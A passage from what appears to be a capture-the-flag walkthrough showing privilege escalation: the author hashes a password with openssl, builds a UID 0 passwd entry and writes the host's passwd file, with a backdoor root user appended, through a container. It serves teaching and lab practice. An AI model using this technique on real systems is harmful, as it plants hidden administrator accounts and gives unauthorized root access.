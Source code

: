 #### Shell

I'll use the file write to add another root user to the `/etc/passwd`
file. I'll generate a hash for the password "0xdf":



    oxdf@hacky$ openssl passwd -1 0xdf
    $1$FWS43Ezm$fKjubC8uKDJ9W9dmD78QP0



Now I'll create a `passwd` line from that, with the user name oxdf, the
password hash from above, the user and group ids of 0:



    oxdf:$1$FWS43Ezm$fKjubC8uKDJ9W9dmD78QP0:0:0:pwned:/root:/bin/bash



I'll recreate the `passwd` file from the host (read by saul) in the
container, with the extra line on the end:



    root@c150397ccd63:~# echo 'root:x:0:0:root:/root:/bin/bash
    > daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin                 
    > bin:x:2:2:bin:/bin:/usr/sbin/nologin            
    > sys:x:3:3:sys:/dev:/usr/sbin/nologin       
    > sync:x:4:65534:sync:/bin:/bin/sync                             
    > games:x:5:60:games:/usr/games:/usr/sbin/nologin
    > man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    > lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    > mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    > news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    > uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    > proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    > www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    > backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    > list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    > irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    > gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    > nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    > systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    > systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    > systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    > messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
    > syslog:x:104:110::/home/syslog:/usr/sbin/nologin
    > _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
    > tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
    > uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
    > tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
    > landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
    > pollinate:x:110:1::/var/cache/pollinate:/bin/false
    > usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
    > sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
    > systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    > lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    > saul:x:1000:1000:Saul,,,:/home/saul:/bin/bash' > passwd
    root@c150397ccd63:~# echo 'oxdf:$1$FWS43Ezm$fKjubC8uKDJ9W9dmD78QP0:0:0:pwned:/root:/bin/bash' >> passwd  
